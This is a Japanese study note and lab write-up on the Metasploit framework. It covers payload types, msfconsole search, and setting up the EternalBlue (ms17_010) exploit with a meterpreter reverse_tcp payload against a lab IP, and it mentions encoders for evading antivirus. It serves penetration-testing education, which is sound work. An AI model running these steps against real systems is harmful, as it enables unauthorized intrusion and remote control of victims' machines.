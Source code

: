 metasploit framework

metasploit consoleからから使用  
脆弱性の攻撃  
ターゲットのスキャン  
ブルートフォース攻撃の実行  

ターゲットシステム上に存在する脆弱性の一部、これをエクスプロイト  
ペイロードは脆弱性の利用  
ペイロードはターゲットシステム上で実行されるコード  
機密情報の読み取り等、エクスプロイトして得たい結果次第  

## metasploit framework module  
--- 
metasploitframework自体は,
/optにある  
moduleの確認  
kali はdefaultでtreeコマンド入ってないよ  

```
/opt/metasploit-framework-5101/modules
```

大体、defaultではここに入ってるっぽい  
<br>
エンコーダーはセキュリティソフト対策  
<br>
metasploitはターゲット上のシステムのシェルを開くペイロードをデフォルトで備えている。   
<br>
## payloadの種類  
---  
シングル： 自己完結型のペイロードで、追加コンポーネントをダウンロードする必要なし  
<br>

# write up    
<br>

## Metasploit: Introduction
###  Task 2  Main Components of Metasploit
Is "windows/x64/pingback_reverse_tcp" among singles or staged payload?

```
// 移動後
find payloads/ -name "*pingback_reverse_tcp*"
```
```
payloads/singles/windows/pingback_reverse_tcp.rb
payloads/singles/windows/x64/pingback_reverse_tcp.rb
payloads/singles/linux/x64/pingback_reverse_tcp.rb
payloads/singles/ruby/pingback_reverse_tcp.rb
payloads/singles/python/pingback_reverse_tcp.rb
```  
<br>

### Task 3  Msfconsole  
metasploit frameworkのインターフェイスはmsfconsole  
```
msfconsole
```  
コマンドで起動可能  
<br>
msfconsoleで最も便利なコマンドはsearch、  
metasploitのデータベース検索用  
指定された検索パラメータに関するモジュール  
cve エクスプロイト名  
```
// エクスプロイト名で検索
// クロスサイトスクリプション
search xss
// shellcode injection
search "shellcode injection"
```  
<br>
<br>

### Task 4  Working with modules
---  
<br>  
exploitするmoduleをセット  

```
// useで使用するmoduleを設定
use exploit/windows/smb/ms17_010_eternalblue
//victim addressを設定
set rhotes <victim address>
```
<br>

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.32.29      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.58.20      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

```

* RHOSTS: ターゲット・システムのIPアドレス。  
ネットワーク範囲を設定することもできる。  

* RPORT: リモートポート。脆弱なアプリが動いているターゲットシステムのポート  

* PAYLOAD: エクスプロイトで使用。  

* LHOST: 攻撃元のIP。  

* LPORT: リバースシェルが接続し直すために使用するポート。  
他のアプリが使用しない任意のポートに設定する。  

* SESSION: Metasploitを使用してターゲットシステムに確立された各接続は、セッションIDをもつ。  
これは、既存の接続を使用して、ターゲットシステムに接続するポストエクスプロイトモジュールで使用する。  
<br>
<br>
パラメータを設定したので、exploitコマンドを起動する。  
zコマンドをつけると、セッションをバックグラウンド。  


<br>

* dnsとか見つけたい。  
udpサービスとかをみるとよい？
metasploitはこれを行うのに優れたものを提供している。  
